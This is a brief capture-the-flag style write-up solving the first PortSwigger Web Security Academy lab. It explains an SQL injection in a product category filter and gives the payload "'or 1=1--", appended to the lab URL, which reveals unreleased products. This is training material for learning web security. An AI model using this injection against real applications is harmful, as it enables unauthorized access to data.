 # Lab 1

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Excercise: 

This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

````
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
````

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

#
Level: Apprendice

Reference: https://portswigger.net/web-security/sql-injection

## Context

## Solution

Select one category to display the list of products, making the url redirect to something like this:

````
https://ac171f121e71094fc078c7ad006700c4.web-security-academy.net/filter?category=Corporate+gifts
````

To list all products in any category, add **"'or 1=1--"** in the end of the url:

````
https://ac841f9a1e7a0992c090bc1b00f4003e.web-security-academy.net/filter?category=Pets%27+or+1=1--
````

![Alt text](images/lab_1/lab1_solution.png?raw=true "Title")
